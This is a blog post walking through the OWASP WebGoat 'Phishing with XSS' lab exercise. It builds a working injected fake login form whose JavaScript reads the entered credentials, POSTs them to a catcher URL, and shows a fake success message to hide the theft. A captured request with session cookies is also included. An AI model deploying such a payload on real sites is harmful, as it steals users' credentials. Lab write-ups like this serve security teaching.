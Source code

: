 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Cross Site Scripting"
subtitle: "Phishing with XSS"
date:   2017-01-26 00:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Cross Site Scripting: Phishing with XSS
Instructions:

Below is an example of a standard search feature.
Using XSS and HTML insertion, your goal is to:

- Insert html to that requests credentials
- Add javascript to actually collect the credentials
- Post the credentials to http://localhost/webgoat/catcher?PROPERTY=yes...
- To pass this lesson, the credentials must be posted to the catcher servlet.

Nice, some more XSS. I'm actually really enjoying the XSS challenges. They seem to require a bit more craftiness than some of the other challenges, and this one looks like no exception. Login spoofing, credential grabbing, and sneaky javascript? Cool!

First off, let's try a test search and see what our attack vector looks like:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-25-webgoat_part_8/test-search.jpg">

Alright. So I don't see any clientside code that puts our search result on the page. I verified that by watching the request to the server and seeing it respond with the full HTML for the results page. So we're going to have to do some blackbox testing to see what we can get by any server side XSS filtering.

*Note*: I also found the full URL format for the credential catcher servlet in the server response:
```
http://localhost/WebGoat/catcher?PROPERTY=yes&user=catchedUserName&password=catchedPasswordName
```

So, if we look at the instructions, there are three separate steps in this injection:

- insertion of a fake login form
- insertion of a javascript function that will steal the creds from our inserted login form
- mechanism to send stolen creds to the servlet

Let's start with a little bit of test code. We only have one insertion point, so we have to put everything in at once. Let's try to pass a script and a login prompt to our user:

```
<script>
function testFunction() {
	return "test"
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="password" value="pass" type="TEXT"><br>{
<button type="button" onclick='javascript:alert(testFunction()")'>Login</button>
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-25-webgoat_part_8/test-pop.jpg">

Nice! We can call arbitrary javascript code we write on button press. Now let's try to harness that to grab some user data. To complete this I had to do some research about how Document Object Models and Javascript interact. On load, a browser creates a DOM of the page that is structured something like this (Credit to [W3 Schools][dom-js]):

<img src="{{ site.baseurl }}/images/webgoat/2017-01-25-webgoat_part_8/dom-model.gif">

Notice how everything on the page is an element. Well we can use a javascript builtin function called ```getElementById( id )``` on the ```document``` to access any element on the page (that we specify by its unique id). We can achieve this by creating variables in our injected script to access injected elements in our document. Let's try to set the ```id``` field of our username and password inputs to a value we like, and access them with our injected javascript:

```
<script>
function userCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	return username + ":" + password
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(`user:pass= ` + userCreds())'>Login</button>
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-25-webgoat_part_8/user-pop.jpg">

Alright! So we successfully accessed the user data that we want. Now we need to send it to the servlet behind the scenes. Let's break out a friend we've seen before, ```XMLHttpRequest```, and steal some creds!

```
<script>
function stealCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	var credURL = "http://192.168.56.101/WebGoat/catcher?PROPERTY=yes&user="+username+"&password="+password;

	var xmlHTTP = new XMLHttpRequest();
	xmlHTTP.open("POST",credURL, false);
	xmlHTTP.send(null);

	return "You were successfully logged in!";
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(stealCreds())''>Login</button>
```

Now we have a much more nefarious implementation of our script. First, it parses the data from the login fields and properly formats it into our waiting servlet url. Then we create a new ```XMLHttpRequest```, which we use to ```POST``` our stolen credentials to our servlet URL. Finally, we return the 'all clear' alert to our user so that no one is the wiser (and no one changes their password!). Let's see it in action:

```
POST /WebGoat/catcher?PROPERTY=yes&user=regularguy&password=password123 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=54&menu=900
Cookie: JSESSIONID=27BE2D33035F93B37F3998509C6AD48C; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Content-Length: 0
```

<img src="{{ site.baseurl }}/images/webgoat/2017-01-25-webgoat_part_8/user-logged.jpg">

XSS'd! That was more challenging that a lot of the other problems so far, but also a lot of fun!

### References

1 [DOM Javascript][dom-js]

2 [DOM Value Accession][dom-accession]

3 [Javascript HTTP Requests][js-requests]

[dom-js]:http://www.w3schools.com/js/js_htmldom.asp
[dom-accession]:http://www.w3schools.com/js/js_htmldom_methods.asp
[js-requests]:http://stackoverflow.com/questions/247483/http-get-request-in-javascript
